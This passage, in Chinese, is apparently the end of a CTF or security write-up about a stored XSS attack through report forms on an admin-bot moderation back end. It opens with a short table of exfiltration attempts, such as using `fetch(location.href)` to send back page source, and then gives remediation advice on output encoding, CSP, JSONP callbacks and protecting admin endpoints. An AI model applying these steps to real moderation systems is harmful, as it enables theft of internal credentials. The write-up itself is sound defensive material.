| 4 | 举报单 #4 只回传当时的 DOM | 拿到后台骨架，但缺 `#vbtn` 绑定脚本 | 改为 `fetch(location.href)` 回传完整源码 |
| 5 | 举报单 #5 用 `setTimeout` 延时点击 + 回传 | 70+ 秒无任何回复 | bot 页面存活时间太短，延时任务未执行；改为完全同步 |

### 修复建议

1. **输出编码优先于过滤**：审核后台渲染用户举报内容时必须做上下文相关的输出编码；若确需富文本，使用白名单清洗器（如 DOMPurify）并配合 CSP，两者不可互相替代。
2. **CSP 不能想当然**：使用 nonce/hash，`script-src` 不要宽泛放行同源动态端点；启用 CSP 的同时要审计所有“被信任的脚本源”——JSONP、文件上传点、可写的静态目录等都可能是绕过面。
3. **JSONP 接口整改**：对 `callback` 做严格白名单（只允许合法标识符字符集且限定已注册回调名），或迁移到 CORS + `application/json`，不要原样拼接返回。
4. **后台接口鉴权与最小权限**：`/admin/secret` 这类敏感接口除会话校验外，应增加二次校验/审计；内部凭据不要在“页面内脚本可随意请求”的接口上明文下发。
5. **隔离与监控**：bot 审核环境与真实内部凭据应最小化暴露面；对用户内容触发的脚本行为、后台敏感接口的异常调用做审计告警。
